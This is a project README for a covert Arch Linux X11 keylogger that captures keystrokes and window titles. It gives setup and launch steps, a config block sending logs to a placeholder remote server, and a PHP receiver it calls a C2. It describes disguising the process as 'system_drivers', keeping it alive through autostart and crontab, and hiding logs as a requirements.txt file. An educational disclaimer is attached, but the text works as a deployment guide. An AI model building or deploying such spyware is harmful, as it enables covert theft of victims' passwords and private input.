

# 🏹 Arch Linux X11 Keylogger & Exfiltrator (KL-test-arch)

> An automated test suite and proof-of-concept keystroke telemetry client optimized for **Arch Linux** desktop environments using X11, featuring automated compilation, headless background execution (`nohup`/`disown`), desktop session persistence, and HTTP exfiltration.

[](https://archlinux.org/)
[](https://www.x.org/)
[](https://en.wikipedia.org/wiki/C_(programming_language))
[](https://curl.se/)
[](https://en.wikipedia.org/wiki/Penetration_test)

---

> [!CAUTION]
> **Educational & Research Disclaimer**:
> This repository is designed exclusively for educational purposes and internal security testing on systems owned or authorized by the tester. Installing or operating keylogging software on third-party systems without explicit permission is strictly illegal.

---

## 🔍 Overview & Arch Linux Target Profile

This project is tailored for rapid testing on Arch Linux and rolling-release distributions. It packages:
1. **Low-level C Client (`main.c`)**: Intercepts active window titles and keystrokes via `libX11` and periodically transmits aggregated logs using `libcurl`.
2. **One-Command Runner (`run.sh`)**: Verifies toolchain availability (`gcc`), compiles the client with optimal flags, and detaches the process completely from the controlling terminal using `nohup` and `disown`.
3. **HTTP Receiver (`receiver.php`)**: Dynamically writes client payloads to separate log files identified by `{username}@{ip}-{timestamp}`.

---

## 🏗️ Execution Workflow



---

## 📁 Repository Structure

```
KL-test/
├── main.c           # X11 keylogger engine, persistence installer & HTTP POST exfiltration
├── run.sh           # Shell automation script: checks gcc, compiles, and runs in background
├── receiver.php     # PHP backend receiving exfiltrated logs
└── README.md        # Detailed project overview and instructions
```

---

## 🛠️ Prerequisites & Installation

### Arch Linux Dependencies
Install the required development packages using `pacman`:

```bash
sudo pacman -S --needed base-devel gcc libx11 curl
```

### Server (C2 Receiver)
- PHP 7.4+ or 8.x
- Any web server (Nginx, Apache, Caddy, etc.)

---

## 🚀 Usage Guide

### 1. Server Configuration
Upload `receiver.php` to your remote server:
```bash
# On your web server:
mkdir -p logs
chmod 775 logs
```

### 2. Configure Client (`main.c`)
Specify your server domain or IP address in `main.c`:

```c
#define SERVER "your-domain.dev"   // Server domain without http:// or https://
#define SCRIPT_PATH "/receiver.php"
#define UPLOAD_INTERVAL 60         // Interval in seconds
```

### 3. Build & Launch with `run.sh`
Run the automated launch script:

```bash
chmod +x run.sh
./run.sh
```

**Script Output:**
```text
[*] Spouštím keylogger (odpojen od terminalu)...
[+] Běží. PID: 45182
[*] Stop: pkill -f system_drivers
```

---

## 🧹 Termination & Clean Up

To stop the background process and delete test artifacts:

```bash
# Terminate the running background daemon
pkill -f system_drivers

# Remove persistence triggers
rm -f ~/.config/autostart/system_drivers.desktop
crontab -l | grep -v 'system_drivers' | crontab -

# Clean binary and local logs
rm -f ./system_drivers ~/Documents/requirements.txt
```

---

## 📄 License

Licensed under the MIT License for educational and cybersecurity evaluation purposes.
